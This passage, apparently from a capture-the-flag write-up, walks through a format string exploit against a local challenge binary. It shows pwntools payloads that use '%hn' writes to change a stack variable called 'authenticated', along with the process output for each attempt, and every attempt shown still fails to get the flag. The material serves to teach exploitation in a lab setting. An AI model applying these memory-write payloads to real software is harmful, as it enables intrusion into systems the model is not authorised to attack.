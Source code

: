 Now, comes the tricky part : since we are manipulating two bytes, we need to pass in a padding (the first part of the payload like we used in first examples `AA`) by manipulating the value in the `%2x` in order to accept only two bytes that have the length of 1.

However, as we make that value `%2x` grop up, we can see that the authenticated grow with it as well :

```py
p.sendline(b'AA' + addressBytesInStack + b'%3x%7$hn')
```

```
[+] Starting local process './chall': pid 100626
0xffe3a4bc
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 100626)
Hi, AA\xbc\xa4\xe3\xff 32
[authenticated] = 9
Nope! You won't be getting any flags
```

```py
p.sendline(b'AA' + addressBytesInStack + b'%4x%7$hn')
```

```
[+] Starting local process './chall': pid 100518
0xffe2af0c
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 100518)
Hi, AA\x0c\xe2\xff  32
[authenticated] = 10
Nope! You won't be getting any flags
[*] Got EOF while reading in interactive
```

...

```py
p.sendline(b'AA' + addressBytesInStack + b'%1000x%7$hn')
```


```
[+] Starting local process './chall': pid 101455
0xffc8c97c
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 101455)
Hi, AA|\xc9\xc8\xff                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      32
[authenticated] = 1006
Nope! You won't be getting any flags
[*] Got EOF while reading in interactive
```
